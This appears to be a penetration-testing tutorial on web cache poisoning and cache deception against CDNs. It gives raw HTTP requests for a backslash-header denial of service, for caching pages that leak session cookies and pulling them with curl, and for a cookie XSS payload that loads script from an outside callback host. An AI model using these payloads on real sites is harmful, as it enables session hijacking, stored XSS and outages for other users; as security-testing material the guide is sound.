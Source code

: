 # Test Cache Poisoing

**Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.**

## Case 1:

If the applicatoin doen not have a login functionality, but using Akami CDN, You can test this method:

    - request:
    raw:  
         GET /xx/xxx/xxx/?param HTTP/1.1
         Host: hostname
         User-Agnet: xyz....
         Accept: text/html,applicaton/xhtml, applicatoin/xml.....
         Accept-Encoding: gzip, deflate
         Upgrade-Isecure-Requests: 1
         Te: trailers
         Connection: close

         - Check if the server is caching normal requests or not (You can tell this by the response header "Server-Timing: cnd-cache; desc=HIT")
         
     response:
         HTTP/2 200 OK
         ...
         Server-Timing: cnd-cahce; desc=HIT
         ...
        
         - Add an Illegal Request Header into the requst body.
         GET /xx/xx/xxx/param HTTP/2
         Host: hostname
         \:
         User-Agnet: xyz....
         Accept: ...
         ....
         
         - If the response was successfully cached, when you open the URL on any browser, you should get 400 Bad Request
         
         
## Case 2:
**If the Applicatoin does have a Login Functionality**
- Create an account
- Test Case1
- Check if any sensitve information is doclosed in any page (e.g: session Token)
- Send the request to Repeater
- Add a Cacheable Extention (.js, .css) at the end of the URL and see if it gives 200 OK Response
- Open the Modified URL using your authenticated Account:
- Open the Same URL using curl or Private Web Browser window.
```bash
curl "https://target.site/?param=1" --compressed | grep -i 'cookies'
```
- If the Token was successfully cached, you should see the Token in the response
### If the Application is using Cloudflare CND
**Illegal header won't work*, and most Cloudflare Cusotmer using Cache Deception Armor*
**_Youc can bypass this protection using .avif file extension while is really unknown extenstion file._**

### Cache Deception TO Account Takeover:
     All cookies (even HTTPonly ones) are being disclosed in https://target.com/app/account/1.js
     if an authenticated user visit this URL all their cookies will be stored in the cache
     An attacker can then extract the cookie and hijack their session.

### TIps & Trick
- In some Applicatoin, if you add a semicolon (;) before the extension it may give you a 200 OK response
  xxx/xxx/xxx/;.js 
  HTTP/2 200 OK
  
 
 ## Case 3: Cache Poisoning to DoS:
 **In Akamai CND, if we send a backslash \ as a header, the server will respond with ```400 Bad Request``` Response**
     request:
 
     raw: 
        GET /products/xxx/xxxx/xxx/?test HTTP/2
        Host: www.host.com
        \: 
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

   Response:
        
        HTTP/2 400 Bad Request
        Content-Type: text/html;charset=iso-8859-1
        Content-Length: 70
        Cache-Control: max-age=297
        Expires: Thu, 21 Jul 2022 16:17:54 GMT
        Date: Thu, 21 Jul 2022 16:12:57 GMT
        Server-Timing: cdn-cache; desc=HIT
        Server-Timing: edge; dur=32
        Server-Timing: origin; dur=147
        Strict-Transport-Security: max-age=86400
        Ak-Uuid: 0.bc85d817.1658419977.1592c61

**This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like**

_www.host.com/product/*_

_www.host.com/*_

etc... It become a very impactful bug:

## Case 4: Cache Poisoing to Stored XSS

***Try in cookies if cookies body reflecting in response body: Try Stored XSSS, BXSS**
 
**Try for Blind XSS on Cookie if target blocking try jquery payload ```$.getScript``` will help you.**
request:

        GET /xxxx/xx-xx.otf?triagethiss HTTP/2
        Host: www.host.com
        Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-xss,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

  response:
  
        <script>
        ...
        Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
        ....
        </script>

### Tips & Tricks:
**Test for XSS on any Request Heder, cookies, Custom Header, X-Forwarded-*  Header**
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

